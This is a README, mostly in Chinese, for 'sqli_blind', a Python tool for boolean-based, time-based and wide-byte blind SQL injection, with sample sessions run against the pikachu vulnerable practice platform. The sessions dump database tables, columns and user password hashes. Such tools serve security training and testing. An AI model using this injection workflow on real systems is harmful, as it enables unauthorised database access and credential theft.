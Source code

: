# sqli_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sqli_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注（包括宽字节注入）和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的两个盲注关卡以及宽字节注入关卡开发，如有必要可以用这3个关卡进行测试。

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py，sqli_tb.py和sqli_bb_widebyte.py的payload和部分参数   
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

# 示例

## 布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseBool()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesBool()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsBool()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentBool()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseTime()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesTime()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsTime()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is     USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentTime()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 布尔盲注+宽字节注入

以pikachu漏洞平台SQL-Inject的宽字节注入关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseWide()  
the name of current database contains 7 characters   
the name of current database is pikachu  
\>\>\> TablesWide()  
the name of all tables in current database contains 38 characters   
the name of all tables in current database is httpinfo,member,message,users,xssblind   
\>\>\> ColumnsWide()  
the name of all columns in current table contains 164 characters   
the name of all columns in current table is      user_id,first_name,last_name,user,password,avatar,last_login,failed_login,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password      
\>\>\> ContentWide()  
the content contains 117 characters     
the content is admin\~e10adc3949ba59abbe56e057f20f883e,pikachu\~670b14728ad9902aecba32e22fa4f6bd,test\~e99a18c428cb38d5f260853678922e03     
